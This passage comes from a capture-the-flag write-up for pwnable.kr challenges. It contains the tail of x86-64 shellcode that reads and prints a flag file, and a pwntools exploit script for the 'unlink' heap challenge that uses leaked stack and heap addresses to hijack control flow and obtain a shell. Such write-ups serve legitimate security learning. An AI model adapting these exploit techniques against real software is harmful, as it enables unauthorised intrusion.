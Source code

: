 ```
xor rdi, rdi
add dil, 1 ; set stdout fd = 1
mov rdx, rax
xor rax, rax
add al, 1
syscall

; syscall exit
xor rax, rax
add al, 60
syscall

_push_filename:
call _readfile
path: db "this_is_pwnable.kr_flag_file_please_read_this_file.sorry_the_file_name_is_very_loooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0000000000000000000000000ooooooooooooooooooooooo000000000000o0o0o0o0o0o0ong", 0
```

To get the shellcode from this file use the commands [here](https://github.com/CodeMaxx/Binary-Exploitation/blob/master/tips.md#getting-executable-from-assembly)

## unlink

```python

from pwn import *

pro = ssh("unlink", "pwnable.kr", password="guest", port=2222)
r = pro.process("./unlink")

print util.proc.pidof(r)
pause()


shell_address = p32(0x80484eb)
r.recvuntil("stack address leak: ")
stack_address = r.recvuntil("\n")
print "Stack leak: ", stack_address
r.recvuntil("heap address leak: ")
heap_address = r.recvuntil("\n")
print "Heap leak: ", heap_address
r.recvuntil("get shell!\n")
r.sendline(shell_address + "A"*12 + p32(int(stack_address, 16) + 12) + p32(int(heap_address, 16) + 8 + 4))
r.interactive()
```

**Cheer! Go through other [writeups](../) for more such fun challenges.**
